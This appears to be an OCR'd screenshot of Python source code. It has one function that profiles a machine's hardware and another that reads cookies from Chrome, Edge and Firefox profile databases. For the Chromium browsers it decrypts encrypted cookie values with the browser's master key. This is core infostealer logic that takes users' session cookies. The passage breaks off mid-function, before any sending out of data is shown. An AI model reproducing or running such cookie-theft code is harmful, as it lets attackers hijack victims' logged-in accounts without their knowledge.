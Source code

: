 def gather_system_info():
    """Gather system hardware information."""
    info = {}
    info['Processor'] = platform.processor()
    info['Physical Cores'] = psutil.cpu_count(logical=False)
    info['Logical Cores'] = psutil.cpu_count()
    cpu_freq_val = psutil.cpu_freq()
    info['CPU Frequency'] = f"{cpu_freq_val.current:.2f} MHz" if cpu_freq_val else "Unknown"
    mem = psutil.virtual_memory()
    info['Total RAM'] = f"{mem.total / (1024**3):.2f} GB"
    info['Available RAM'] = f"{mem.available / (1024**3):.2f} GB"
    info['RAM Usage'] = f"{mem.percent}%"
    return info

def gather_browser_info():
    """
    Gather browser cookie data from Chrome, Edge, and Firefox.
    """
    browser_data = {}
    for browser in ["Chrome", "Edge"]:
        data = []
        cookie_path = find_chromium_file(browser, "Cookies")
        master_key = get_master_key(browser) if browser.lower() in ["chrome", "edge"] else None
        if cookie_path:
            try:
                conn = sqlite3.connect(cookie_path)
                cursor = conn.cursor()
                cursor.execute("SELECT host_key, name, value, encrypted_value FROM cookies")
                cookies = cursor.fetchall()
                for cookie in cookies[:5]:
                    host, name, value, encrypted_value = cookie
                    if (not value or value == "") and encrypted_value:
                        value = decrypt_value(encrypted_value, master_key)
                    data.append({"host": host, "name": name, "value": value})
                conn.close()
            except Exception as e:
                data.append({"error": str(e)})
        else:
            data.append({"error": f"Cookie file not found for {browser}."})
        browser_data[browser] = data

    # Firefox cookies
    firefox_data = []
    firefox_profiles_path = os.path.join(os.environ.get("APPDATA", ""), "Mozilla", "Firefox", "Profiles")
    if os.path.exists(firefox_profiles_path):
        profiles = [d for d in os.listdir(firefox_profiles_path)
                    if os.path.isdir(os.path.join(firefox_profiles_path, d))]
        if profiles:
            profile_path = os.path.join(firefox_profiles_path, profiles[0])
            cookie_path = os.path.join(profile_path, "cookies.sqlite")
            if os.path.exists(cookie_path):
                try:
                    conn = sqlite3.connect(cookie_path)
                    cursor = conn.cursor()
                    cursor.execute("SELECT host, name, value FROM moz_cookies")
                    cookies = cursor.fetchall()
                    for cookie in cookies[:5]:
                        host, name, value = cookie
                        firefox_data.append({"host": host, "name": name, "value": value})
                    conn.close()
                except Exception as e:
                    firefox_data.append({"error": str(e)})